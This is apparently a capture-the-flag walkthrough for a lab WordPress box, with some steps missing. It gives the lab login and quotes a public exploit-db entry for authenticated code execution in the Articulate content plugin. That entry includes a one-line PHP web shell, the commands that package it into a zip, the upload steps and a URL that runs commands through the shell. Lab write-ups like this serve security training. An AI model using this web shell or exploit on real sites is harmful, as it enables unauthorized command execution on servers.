

a) Log in Wordpress site.


Username: barney
Password: spooky1
b) Go to “Plugins” section.
There are 3 plugins.
Look up on http://exploit-db.com some of them. You'll find this.
f) Click on the link and you'll see the exploit instructions.
# Exploit Title: Authenticated code execution in `insert-or-embed-articulate-content-into-wordpress` Wordpress plugin
# Description: It is possible to upload and execute a PHP file using the plugin option to upload a zip archive
# Date: june 2019
# Exploit Author: xulchibalraa
# Vendor Homepage: https://wordpress.org/plugins/insert-or-embed-articulate-content-into-wordpress/
# Software Link: https://downloads.wordpress.org/plugin/insert-or-embed-articulate-content-into-wordpress.4.2995.zip
# Version: 4.2995 <= 4.2997
# Tested on: Wordpress 5.1.1, PHP 5.6
# CVE : -
## 1. Create a .zip archive with 2 files: index.html, index.php
echo "<html>hello</html>" > index.html
echo "<?php echo system($_GET['cmd']); ?>" > index.php
zip poc.zip index.html index.php
## 2. Log in to wp-admin with any user role that has access to the plugin functionality (by default even `Contributors` role have access to it)
## 3. Create a new Post -> Select `Add block` -> E-Learning -> Upload the poc.zip -> Insert as: Iframe -> Insert (just like in tutorial https://youtu.be/knst26fEGCw?t=44 ;)
## 4. Access the webshell from the URL displayed after upload similar to
http://website.com/wp-admin/uploads/articulate_uploads/poc/index.php?cmd=whoami Index
Index